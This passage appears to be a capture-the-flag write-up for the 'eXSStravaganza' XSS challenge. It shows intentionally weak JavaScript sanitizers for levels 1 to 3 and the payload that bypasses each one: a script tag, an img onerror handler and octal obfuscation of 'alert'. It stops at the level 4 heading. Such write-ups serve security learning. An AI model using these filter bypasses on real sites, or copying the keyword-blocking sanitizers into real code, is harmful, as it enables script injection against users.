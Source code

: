 ## eXSStravaganza level 1
### The sanitizer

    function sanitize(input) {
        // warmup
        return input;
    }

### The solution

As simple as that

    <script>alert(1)</script>

## eXSStravaganza level 2
### The sanitizer

    function sanitize(input) {
        // no scripts!
        if (input.toLowerCase().includes('script')) {
            return 'NO!';
        }
        return input;
    }

### The solution

Just use another tag

    <img src=x onerror=alert(1)>

## eXSStravaganza level 3
### The sanitizer

    function sanitize(input) {
        // no alert!
        if (input.toLowerCase().includes('alert')) {
            return 'NO!';
        }
        return input;
    }

### The solution

We can use the octal notation to obfuscate the `alert` string

    <script>window['\141lert'](1)</script>

## eXSStravaganza level 4
### The sanitizer
